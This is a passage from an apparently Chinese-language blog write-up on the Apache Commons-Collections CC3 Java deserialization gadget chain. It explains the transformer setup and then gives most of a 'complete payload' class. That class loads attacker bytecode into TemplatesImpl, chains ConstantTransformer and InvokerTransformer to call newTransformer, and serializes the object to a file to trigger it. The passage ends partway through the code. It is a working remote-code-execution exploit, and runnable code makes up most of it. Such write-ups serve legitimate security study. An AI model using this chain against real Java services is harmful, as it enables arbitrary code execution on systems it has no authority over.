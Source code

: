 ```java
Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(templates),
                new InvokerTransformer("newTransformer",null,null)

        };
```
这里直接就是传入的参数就是null了，也不需要获取null的原型了。不是获得方法时由于参数是null，要得到原型。null相当于new Class[0] 或new Object[0].
后半段就和cc1中的方法一样。
## 完整payload
```java
package Enterprise.cc;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantFactory;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.nio.file.Files;
import java.util.HashMap;
import java.util.Map;
import java.nio.file.Paths;


public class cc3 {
    public static void payload2File(Object instance, String file)
            throws Exception {
        //将构造好的payload序列化后写入文件中
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(file));
        out.writeObject(instance);
        out.flush();
        out.close();
    }

    public static void payloadTest(String file) throws Exception {
        //读取写入的payload，并进行反序列化
        ObjectInputStream in = new ObjectInputStream(new FileInputStream(file));
        in.readObject();
        in.close();
    }
    public static void main(String[] args) throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        Class tc = templates.getClass();
        Field namefiled = tc.getDeclaredField("_name");
        namefiled.setAccessible(true);
        namefiled.set(templates,"114514");
        Field bycodesfiled = tc.getDeclaredField("_bytecodes");
        bycodesfiled.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("D://tmp/classes/Test.class"));

        byte[][] codes = {code};
```